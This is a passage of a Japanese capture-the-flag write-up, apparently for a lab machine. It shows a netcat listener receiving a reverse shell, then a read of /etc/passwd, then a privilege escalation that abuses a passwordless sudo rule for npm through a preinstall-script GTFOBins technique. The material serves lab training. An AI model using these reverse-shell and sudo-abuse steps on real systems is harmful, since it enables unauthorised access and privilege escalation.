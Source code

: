 - 攻撃端末側で待機していると繋ぎなおしてくる

```
└─# nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.9.1.82] from (UNKNOWN) [10.10.37.85] 42028
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www
$ cat /etc/passwd
serv-manage:x:1000:1000:serv-manage,,,:/home/serv-manage:/bin/bash
www:x:1001:1001:,,,:/home/www:/bin/bash

```


# sudoの設定不備をついて別ユーザに変更

- sudo -lをすると、super

```
$ sudo -l
Matching Defaults entries for www on vulnnet-node:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www may run the following commands on vulnnet-node:
    (serv-manage) NOPASSWD: /usr/bin/npm

```

- gtfobinで確認
    - https://gtfobins.github.io/gtfobins/npm/
    - 途中権限がないと怒られたので、えいやーで777に設定
```
$ TF=$(mktemp -d)
$ echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
$ chmod -R 777 $TF
$ sudo -u serv-manage /usr/bin/npm -C $TF --unsafe-perm i

> @ preinstall /tmp/tmp.45XOApCBKe
> /bin/sh

whoami
serv-manage
ls /home/serv-manage
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
user.txt
Videos
```
